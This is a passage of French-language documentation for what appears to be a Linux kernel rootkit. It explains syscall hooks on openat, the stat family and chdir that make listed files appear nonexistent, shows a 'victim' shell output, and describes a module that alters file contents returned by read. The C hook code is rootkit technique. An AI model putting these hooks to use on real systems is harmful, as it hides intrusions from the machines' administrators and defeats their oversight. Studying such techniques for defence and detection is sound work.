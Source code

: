 #### 4.2.2 Interception
```c
asmlinkage long (*__orig_openat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_newfstatat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_fstat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_lstat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_stat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_chdir)(const struct pt_regs *regs) = NULL;
asmlinkage long (*__orig_ptrace)(const struct pt_regs *regs) = NULL;
```

Toutes les interceptions sont déclarées et implémentées dans forbid.c. On y trouve, dans un premier temps, les pointeurs vers les fonctions noyau d’origine, qui seront sauvegardés au moment de l’installation des hooks. Pour ce qui est de la fonction `openat` (appelée via `sys_openat`), elle est utilisée pour ouvrir un fichier ou créer un lien. Dans notre hook, on récupère l’argument `pathname` passé par l’espace utilisateur depuis le registre `regs->si`.
```c
asmlinkage long notrace openat_hook(const struct pt_regs *regs) {
    const char __user *u_path = (const char __user *)regs->si;
    if (forbid_contains(u_path))
        return -ENOENT;
    return __orig_openat(regs);
}
```
```bash
root@victim# cat /etc/secret.conf
cat: /etc/secret.conf: No such file or directory
```
Ainsi, si le chemin est interdit, le hook renvoie `-ENOENT`, ce qui fait croire au processus qu’il n’existe pas ! Dans le cas contraire, on invoque ici `__orig_openat(regs)` pour ouvrir le fichier normalement. Par ailleurs, de nombreux utilitaires reposent sur la famille d’appels systèmes `stat`, `lstat`, `fstat` et `newfstatat` pour obtenir les métadonnées d’un fichier (permissions, taille, propriétaire, etc.). Plutôt que d’installer quatre hooks séparés, nous avons regroupé l’interception de ces quatre appels dans une unique fonction `stat_hook`, qui examine `orig_ax` pour rediriger vers la fonction d’origine appropriée dans la fonction stat_hook(const struct pt_regs *regs). Enfin, l’appel système `chdir` permet à un processus de changer son répertoire de travail courant. Si l’on veut empêcher un utilisateur ou un script de s’avancer dans un dossier jugé sensible, on intercepte aussi `chdir` et on bloque le changement de dossier dès que le chemin se trouve dans la liste `forbid_list`.
```c
asmlinkage long notrace chdir_hook(const struct pt_regs *regs) {
    const char __user *u_path = (const char __user *)regs->di;
    if (forbid_contains(u_path))
        return -ENOENT;
    return __orig_chdir(regs);
}
```

### 4.3 🧬 alterate

La partie *alterate* du rootkit permet de modifier à la volée le contenu des fichiers lus par un processus, en se basant sur des règles définies pour chaque chemin. Dès qu’un appel à `read` est intercepté sur un *file descriptor* dont le chemin figure dans la liste des fichiers à altérer, on peut soit masquer une ligne précise, soit masquer toute ligne contenant un certain mot clef, ou soit remplacer une sous-chaîne par une autre dans chaque ligne retournée. Cette fonctionnalité est dynamique, mais doit être utilisée avec précaution, car il n’est pas toujours garanti que les éléments basés sur les numéros de ligne fonctionnent de manière fiable (hehe).
